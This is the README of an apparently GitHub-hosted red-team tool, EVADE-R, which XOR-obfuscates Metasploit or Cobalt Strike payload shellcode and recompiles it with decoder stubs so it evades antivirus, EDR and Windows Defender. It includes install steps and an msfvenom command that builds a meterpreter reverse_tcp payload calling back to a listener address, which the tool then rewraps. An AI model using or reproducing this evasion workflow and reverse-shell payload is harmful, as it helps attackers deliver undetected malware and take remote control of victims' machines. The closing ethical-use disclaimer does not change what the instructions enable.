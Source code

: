 <h1 align="center">
  🛡️ EVADE-R 🧠
</h1>

<p align="center">
  <i>Evasion Validator and Automated Decoder Engine for Red-teaming</i><br>
  <b>EVADE-R</b> is a Red Team utility that transmutes known payloads into new forms designed to slip past antivirus and EDR defenses—without breaking functionality.
</p>

---

## 🧬 What It Does

> Takes a known `.exe` payload → disassembles → obfuscates → recompiles → survives.

**EVADE-R** is an automated toolchain that:
- 💥 Accepts known malware signatures (e.g., Cobalt Strike, MSF payloads)
- 🧠 Decompiles and extracts `.text` section shellcode
- 🌀 Obfuscates shellcode via XOR encoding (and more coming)
- 🧪 Rebuilds a working `.exe` with runtime decoder stubs
- 🦠 Bypasses Windows Defender with ease

---

## 🛠️ Features

✅ Shellcode extractor  
✅ XOR encoder with randomized key  
✅ Runtime decoder stub injection  
✅ Minimal stub loader in C  
✅ Automated rebuild and output generation  
🚧 Looping & VT feedback (coming soon)  
🚧 Junk injection and instruction substitution (planned)

---

## ⚙️ Setup

### 📦 Requirements
- Arch Linux (or other distro)
- `mingw-w64-gcc` (`sudo pacman -S mingw-w64-gcc`)
- Python 3.10+
- `capstone`, `lief`, `keystone-engine`

### 🧱 One-Time Install

```bash
git clone https://github.com/YOUR_USERNAME/evade-r.git
cd evade-r
chmod +x setup.sh run.sh
./setup.sh
```
## 🚀 Usage

### 🎯 Generate a detectable payload (example)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.5.0.59 LPORT=4444 -f exe -o payload.exe
🧼 Transform it with EVADE-R

./run.sh payload.exe
```

This will:

    Extract and XOR-encode the shellcode

    Insert a runtime decoder stub

    Recompile into a new executable

You’ll find the results in:
```
artifacts/
└── payload/
    ├── EVADE_payload.exe              # Final obfuscated and rebuilt payload
    ├── obfuscated_disassembly.txt     # Human-readable disassembly with obfuscation
    └── text_section.bin               # Raw extracted .text section shellcode
``` 

##🔒 Ethical Use Only

This tool is provided strictly for ethical hacking, research, and red team training purposes.
Do not use EVADE-R on systems or networks you do not own or have explicit permission to test.

The creator assumes **no** responsibility for illegal or malicious use.


###🧙 Author


Made with blood, bytes, and broken detections by Aidan Ahern
